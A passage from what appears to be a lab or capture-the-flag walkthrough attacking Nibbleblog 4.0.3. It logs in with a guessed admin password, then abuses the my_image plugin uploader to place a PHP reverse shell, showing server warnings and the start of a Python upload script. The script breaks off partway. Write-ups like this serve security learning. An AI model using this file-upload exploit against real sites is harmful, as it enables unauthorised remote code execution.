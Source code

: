 “Nibbles” does not work, but “nibbles” does.

I can now create new blog posts. I try an XSS attack, but it’s not giving results. So let’s go back to that exploit we found earlier. It is for version 4.0.3 which is what we got here.

The exploit uses a mistake in the ajax image uploader. If we go to the uploader and attempt to upload our php reverse shell as an image we get this:

```
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
```

So I wrote a python script to upload and load the reverse shell:


```
import requests
import sys

# Set headers and cookie. Cookie is just taken from browser.

headers = {
            'User-Agent':'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36',
            'Cookie':'7dvu283s5u9h55a0huocta49t1'
        }


# The url to execute the upload.

payload_url = "http://10.129.79.148/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image"

# Just read the reverse shell as bytes.
payload = open("php-reverse-shell.php", "rb")

# Add the required data by the my_image plugin
files = {
            'plugin': (
                None,
                b'my_image',
                '',
                '',
            ),
            'title': (
                None,
                b'My image',
                '',
                '',
            ),
            'position': (
```